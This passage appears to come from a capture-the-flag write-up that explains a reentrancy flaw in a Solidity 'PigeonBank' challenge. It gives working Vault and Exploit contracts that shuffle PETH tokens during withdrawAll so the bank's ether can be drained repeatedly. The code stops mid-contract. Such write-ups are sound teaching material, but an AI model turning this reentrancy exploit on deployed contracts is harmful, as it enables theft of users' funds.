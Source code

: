 It can be seen that Ether is transferred using the `sendValue` function of OpenZeppelin's `Address` contract.
Also, `_burnAll` is processed as follows.

```solidity
    function _burn(address src, uint256 wad) internal {
        require(balanceOf[src] >= wad);
        balanceOf[src] -= wad;
    }

    function _burnAll(address _userAddress) internal {
        _burn(_userAddress, balanceOf[_userAddress]);
    }
```

Is it possible to do a Reentrancy Attack with `sendValue`?
If we execute a transfer function to another address in the receive Ether function while executing the `sendValue` function and move PETH, we can change the value of `balanceOf`.
For example, it is possible to withdraw 100 ether but not to change `balanceOf[src]`.

Therefore, the following exploit will get the flag.

```solidity
contract Vault {
    Setup setup;

    constructor(address setupAddress) {
        setup = Setup(payable(setupAddress));
    }

    function transfer() public {
        setup.peth().transfer(msg.sender, setup.peth().balanceOf(address(this)));
    }
}

contract Exploit {
    Setup setup;
    PigeonBank pigeonBank;
    PETH peth;
    Vault vault;
    bool reentry = false;

    function exploit(address setupAddress) public payable {
        setup = Setup(payable(setupAddress));
        pigeonBank = setup.pigeonBank();
        peth = setup.peth();
        vault = new Vault(setupAddress);

        while (address(peth).balance > 0) {
            uint256 value =
                address(this).balance > address(peth).balance ? address(peth).balance : address(this).balance;
            pigeonBank.deposit{value: value}();
            reentry = true;
            pigeonBank.withdrawAll();
            reentry = false;
            vault.transfer();
            pigeonBank.withdrawAll();
        }
        address(payable(msg.sender)).call{value: address(this).balance}("");
    }

    receive() external payable {
        if (reentry) {
            peth.transfer(address(vault), peth.balanceOf(address(this)));
        }
```
